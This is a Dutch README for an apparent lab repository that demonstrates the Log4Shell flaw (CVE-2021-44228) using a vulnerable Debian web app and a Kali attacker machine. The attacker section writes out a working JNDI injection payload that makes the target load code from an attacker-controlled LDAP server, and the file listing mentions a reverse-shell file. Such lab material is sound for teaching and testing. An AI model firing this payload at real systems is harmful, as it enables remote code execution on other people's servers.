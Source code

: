 # Log4Shell Demonstratie (CVE-2021-44228)

Deze demo toont hoe de Log4Shell-kwetsbaarheid werkt door een gesplitste omgeving op te zetten met een **target machine (Debian)** en een **attacker machine (Kali Linux)**.

---

## 🖥️ Target VM (Debian)
Bevat de kwetsbare Java-webapp met Log4j 2.14.1.

### Vereisten:
- Debian/Ubuntu
- Java JDK

### Stappen:
```bash
sudo apt update && sudo apt install -y default-jdk wget
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
chmod +x setup_target.sh
./setup_target.sh
```

Bezoek de webapp op: [http://<target-ip>:8080](http://<target-ip>:8080)

---

## ⚔️ Attacker VM (Kali)
Start een LDAP- en HTTP-server om een exploit via JNDI te leveren.

### Vereisten:
- Kali Linux
- Java JDK
- Python3

### Stappen:
```bash
sudo apt update && sudo apt install -y default-jdk python3 wget
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25/scripts
chmod +x setup_attacker.sh
./setup_attacker.sh
```

Gebruik de volgende payload in het formulier op de target:
```text
${jndi:ldap://<attacker-ip>:1389/a}
```

De exploit zal nu uitgevoerd zijn.
Exploit = touch /tmp/HACKED.txt

---

## 📁 Structuur
```
CyberSec25/
├── exploit/         # Exploit.java + reverse-shell.txt
├── ldap/            # LDAPServer.java (UnboundID)
├── webapp/          # Jetty + Log4j kwetsbare app
├── scripts/
│   ├── setup_target.sh
│   └── setup_attacker.sh
├── log4j2.xml
└── testpayload.txt
```

## ⚠️ Disclaimer
Gebruik dit enkel in een veilige testomgeving. De auteur is niet verantwoordelijk voor verkeerd gebruik.
